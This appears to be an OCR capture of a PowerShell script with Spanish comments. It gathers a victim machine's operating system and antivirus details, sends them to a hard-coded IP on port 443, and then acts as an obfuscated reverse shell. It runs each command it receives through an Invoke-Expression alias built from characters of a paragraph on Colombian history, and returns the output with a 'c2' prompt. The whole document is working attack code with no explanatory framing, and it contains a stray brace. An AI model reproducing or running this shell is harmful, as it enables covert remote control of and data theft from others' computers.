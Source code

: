 ```bash 

    # Recopilacion de informacion del equipo victima
    $System = (Get-WmiObject Win32_OperatingSystem).Caption;
    $Version = (Get-WmiObject Win32_OperatingSystem).Version;
    $Architecture = (Get-WmiObject Win32_OperatingSystem).OSArchitecture;
    $WindowsDirectory = (Get-WmiObject Win32_OperatingSystem).WindowsDirectory;
    $av = (Get-WmiObject -Namespace 'root/SecurityCenter2' -Class 'AntiVirusProduct').displayname;
    # Configuracion de la IPAddress
    $p = "192.168.45.220"

    # Concatenacion de variables de informacion el equipo con su respectiva clave:valor
    $w = "=> RECOPILACION DE INFORMACION DEL TARGET <= `r`n System: $System`r`n VERSION: $Version`r`n ARCH: $Architecture`r`n DIRECTORY: $WindowsDirectory`r`n AVS: $av`r`n GET /index.html HTTP/1.1`r`nHost: $p`r`nMozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0`r`nAccept: text/html`r`n`r`n"
    
    $s = [System.Text.ASCIIEncoding]
    [byte[]]$b = 0..65535|%{0};
    $LUNA = ConvertFrom-ByteArray  @(83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116)
    $r = "LaindependenciadeColombiaocurrienelsigloXIXcuandolascoloniasamericanaslucharoncontraelyugoespaol.LideradosporfigurascomoSimnBolvaryFranciscodePaulaSantanderlosrebeldeslograronliberaraColombiadeladominacincolonial.LaguerraferozylargaculminconlaBatalladeBoyacen1819unhitoquesellaemancipacincolombiana.EstaluchaarduamarcelnacimientodeunanacinlibreysoberanaenAmricadelSur."
    Set-Alias $r ($r[$true-11] + ($r[[byte]("0x" + "FF") -261]) + $r[[byte]("0x" + "2a") -2])
    
    # Configuracion de Puerto
    $y = New-Object $LUNA($p,443)
    $z = $y.GetStream()
    $d = $s::UTF8.GetBytes($w)
    $z.Write($d, 0, $d.Length)
    $SPARTAN = "whoami"
    $t = (LaindependenciadeColombiaocurrienelsigloXIXcuandolascoloniasamericanaslucharoncontraelyugoespaol.LideradosporfigurascomoSimnBolvaryFranciscodePaulaSantanderlosrebeldeslograronliberaraColombiadeladominacincolonial.LaguerraferozylargaculminconlaBatalladeBoyacen1819unhitoquesellaemancipacincolombiana.EstaluchaarduamarcelnacimientodeunanacinlibreysoberanaenAmricadelSur. $SPARTAN) + "@c2===> "

    while(($l = $z.Read($b, 0, $b.Length)) -ne 0){
        $v = (New-Object -TypeName $s).GetString($b,0, $l)
        $d = $s::UTF8.GetBytes((LaindependenciadeColombiaocurrienelsigloXIXcuandolascoloniasamericanaslucharoncontraelyugoespaol.LideradosporfigurascomoSimnBolvaryFranciscodePaulaSantanderlosrebeldeslograronliberaraColombiadeladominacincolonial.LaguerraferozylargaculminconlaBatalladeBoyacen1819unhitoquesellaemancipacincolombiana.EstaluchaarduamarcelnacimientodeunanacinlibreysoberanaenAmricadelSur.  $v 2>&1 | Out-String )) + $s::UTF8.GetBytes($t)
        $z.Write($d, 0, $d.Length)
    }
    $y.Close()
    Start-Sleep -Seconds 7
}

```
